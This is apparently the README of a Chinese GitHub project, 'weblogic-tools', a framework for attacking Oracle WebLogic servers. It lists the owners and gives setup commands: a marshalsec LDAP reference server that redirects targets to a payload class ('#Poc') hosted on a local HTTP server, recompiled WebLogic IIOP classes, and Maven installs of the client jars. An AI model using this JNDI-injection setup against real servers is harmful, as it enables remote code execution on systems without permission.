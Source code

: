 # weblogic-tools
weblogic-tools

拥有人员名单：

| id | 版本  | 时间 |
|:--------|:-------|------|
|Skay|weblogic-framework-0.1.0|2020-04-19|
|sky@iiusky|weblogic-framework-0.1.0|2020-04-19|
|R3start|weblogic-framework-0.1.0|2020-04-19|
|Forever_yang|weblogic-framework-0.1.0|2020-04-19|
|l1nk3r|weblogic-framework-0.1.0|2020-04-19|
|r4v3n|weblogic-framework-0.1.0|2020-04-19|

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```

修改代码

```
javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/iiop/IORManager.java

javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/corba/idl/RemoteDelegateImpl.java
```
启动 com.bea.javascript.jar
```
python -m http.server 8080
```

添加本地仓库依赖

wlfullclient_1.13.jar

```
mvn install:install-file -Dfile=wlfullclient_1.13.jar -DgroupId=com.oracle -DartifactId=weblogic -Dversion=1.13 -Dpackaging=jar

<dependency>
    <groupId>com.oracle</groupId>
    <artifactId>weblogic</artifactId>
    <version>1.13</version>
</dependency>

```

```
mvn install:install-file -Dfile=jsafeFIPS.jar -DgroupId=com.oracle -DartifactId=jsafeFIPS -Dversion=0.01 -Dpackaging=jar

<dependency>
    <groupId>com.oracle</groupId>
    <artifactId>jsafeFIPS</artifactId>
    <version>0.01</version>
</dependency>

```


## 更新日志

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现
